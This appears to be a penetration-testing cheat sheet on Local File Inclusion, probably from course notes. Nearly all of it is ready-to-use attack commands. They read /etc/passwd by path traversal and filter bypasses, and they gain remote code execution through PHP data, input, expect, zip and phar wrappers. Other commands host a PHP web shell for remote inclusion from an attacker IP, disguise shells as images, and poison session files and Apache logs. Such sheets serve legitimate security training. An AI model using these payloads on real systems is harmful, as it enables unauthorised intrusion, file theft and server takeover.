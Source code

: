 # LFI

### Local File Inclusion

| **Command**                                                                                        | **Description**                                           |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
|  **Basic LFI**                                                                                     |                                                           |
|  `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |
|  `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
|  `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                      |
|  `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                    |
|  **LFI Bypasses**                                                                                  |                                                           |
|  `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
|  `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
|  `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
|  `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
|  `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |

### Remote Code Execution

| **Command**                                                                                                                  | **Description**                       |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
|  **PHP Wrappers**                                                                                                            |                                       |
|  `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
|  `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
|  **RFI**                                                                                                                     |                                       |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
|  `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
|  **LFI + Upload**                                                                                                            |                                       |
|  `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
|  `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
|  `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
|  `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
|  `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
|  **Log Poisoning**                                                                                                           |                                       |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
|  `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
|  `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

### Misc

| **Command**                                                                                                                                                                           | **Description**            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
|  `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
|  `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |
|  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)                                                                                                  |                            |
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)                                                                                 |                            |
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)                                  |                            |
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)                              |                            |
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)                                                     |                            |
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)                                                 |                            |

### File Inclusion Functions

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |
